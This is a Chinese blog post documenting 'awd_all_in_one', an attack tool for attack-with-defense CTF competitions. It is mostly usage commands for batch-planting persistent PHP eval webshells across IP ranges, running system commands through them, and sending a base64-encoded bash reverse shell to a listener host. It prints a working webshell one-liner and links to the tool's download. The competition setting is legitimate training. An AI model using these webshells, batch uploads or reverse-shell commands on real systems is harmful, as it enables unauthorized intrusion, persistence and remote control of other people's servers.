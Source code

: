 ```yaml
---
title:  AWD工具
date: 2019-08-14 12:12:57
tags: 一些工具
description: awd_all_in_one
---
```


awd_all_in_one 是一个为awd比赛服务的脚本，旨在简化一些繁杂的批量代码编写,另外也是为了一些新手小白能好好体验下AWD的乐趣，当然学会写脚本是必须的，好的hacker必须是一个好的coder。注意：因为比赛调试需要，所有的脚本get、post请求都代理到了burp 即127.0.0.1 8080 如果不想改代码就开启burp（burp要添加127.0.0.1:8080监听）然后再运行脚本<!-- more -->  
awd_all_in_one的功能主要是  
1、批量上传不死马，并且不死马的密码不一样 md5(ip+key) ，而且不同的密码不需要记录，因为都是md5(ip+key)生成，我们写批量脚本的时候直接自己生成密码即可。  
2、批量执行函数，批量反弹shell  
3、向文件追加内容并修改时间(这个现在还有缺陷，所以先不放了)  

一共是三个模块 get post shell。前两个是写不死马一句话的(区别于一句话的GET 还是POST传参)，shell是个扩展函数 你可以用它来写一句话，也可以用它来执行系统命令 批量反弹shell 甚至 文件包含等，他只是提供了一个批量传值的功能，有疑问可以去看看 shell的函数。  

这个脚本有16个参数需要传递，是不是被吓到了。不过别担心，下面我们就看下这些参数。  

-ip                            指定目标ip  
-ips                          指定目标ip段，支持192.168.253.1-3 和   									      192.168.253.0.1,192.168.253.2,192.168.253.3 两种参数传递方式  
-port                         指定目标ip的端口 可以不传 默认是80  
-ports                       指定多个端口 支持8080-8089 和 8088，8089两种传参方式。一般是用来测试    				那些自己搭建的AWD 没有多个ip      只能用端口来划分的awd测试  
-f                              指定文件路径和文件名，这个参数是为了支持直接通过txt文本的读取来传马，txt				文件的格式如：http://192.168.1.1/1.php cmd  
--dir                          已知一句话的路径（此路径是相对url访问来说的) 比如 已知一句话的地址是				     http://192.168.1.1/1.php 那么 --dir 1.php就可以了  
--password              已知一句话对应的密码  
--dir2                        要写入的路径（确保目录有可写入权限否则会报错，此路径是一直一句话路径			      的相对路径）  
-key                         MD5加密的salt 可指定pass_base 1 ip 2 port 这样密码 也不需要保存 直接 				      python 生成就ok  
--ptl                          网站所使用的协议 默认不传参为http  
--pass_base            基于哪个来进行MD5 1 表示 ip 2 表示 port 默认是 1  
-shell_method          shell传递形式 post 或者 get 默认是 post  
-shell                        shell的值  
-b64                         shell是否是base64传递进来的，简化一些传参的转义工作  

上面就是所有的参数了，并不是所有参数都需要传递，但是建议传递所有的参数，下面我们举几个例子来用一下你就知道很简单了：

比如 我们已知 http://192.168.14.128/upload/bb-1.php 密码 cmd 是POST类型的
那么我们上传不死马需要这样玩儿
```powershell
python awd_all_in_one.py -ip 192.168.14.128 -port 80 --dir upload/aa-1.php --dir2 test_a.php --password cmd -key geez --ptl http --pass_base 1 -method post 
```

有些参数是默认的，当然绝大多数他们也是默认值那样，所以我们可以简化下
```powershell
python awd_all_in_one.py -ip 192.168.14.128 --dir upload/bb-1.php --dir2 test_a.php --password cmd -key geez
```
成功写入木马：
```php
<?php @eval($_POST['ee1dbe29997d539d4010c37e3ebab6a3']);?> 
```
地址：http://192.168.14.128/upload/test_a.php  
密码是由 192.168.14.128geez md5得来。同理我们可以指定port+salt的MD5值作为密码
我们也可以批量上传
```powershell
python awd_all_in_one.py -ips 192.168.14.133-134 -port 80 --dir upload/bb-1.php --dir2 test_a.php --password cmd -key geez --ptl http --pass_base 1 -method post 
```

我们也可以通过get 一句话木马 来批量上传 只需要改变 method 值为 get
比如 
```powershell
python awd_all_in_one.py -ips 192.168.14.133-135 -port 80 --dir upload/aa-1.php --dir2 ./a.php --password cmd -key geez --ptl http --pass_base 1 -method get
```

你也可以通过文件来上传：
```powershell
python awd_all_in_one.py -f test.txt --dir upload/aa-1.php --dir2 ./abbb.php --password cmd -key geez --ptl http --pass_base 1 -method get
```
```powershell
python awd_all_in_one.py -f test.txt --dir upload/bb-1.php --dir2 ./abbbccc.php --password cmd -key geez --ptl http --pass_base 1 -method post
```

我们还有一个模块是 shell 是用来执行自定义的命令和反弹shell使用的

单个执行
```powershell
python awd_all_in_one.py -ip 192.168.14.128 --dir upload/aa-1.php --password cmd -method shell -shell_method get -shell "system(whoami);"
```

批量执行
```powershell
python awd_all_in_one.py -ip 192.168.14.128 --dir upload/bb-1.php --password cmd -method shell -shell_method post -shell "system(whoami);"
```

反弹shell 管理shell的工具 这里就不提供了，可以用wangyihang写的那个Platypus：

``````powershell
python awd_all_in_one.py -ips 192.168.14.133-135 --dir upload/bb-1.php --password cmd -method shell -shell_method post -b64 1 -shell "c3lzdGVtKCJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTQuMS85OTk5IDA+JjEnIik7"
```

-b64 1 表示 使用base64 传递 shell值 -shell_method 是一句话密码是GET 还是 POST 的区分

好了 如果你还需要扩展模块 只需要在主函数里面判断 传入的method 然后自己写一个函数进行调用就ok。当然目前这个脚本还是很low

下载地址：https://github.com/geeeez/awd_all_in_one
需要的库：
import requests
import string
import random
import base64
import hashlib
import argparse
import itertools
import base64
import re
import sys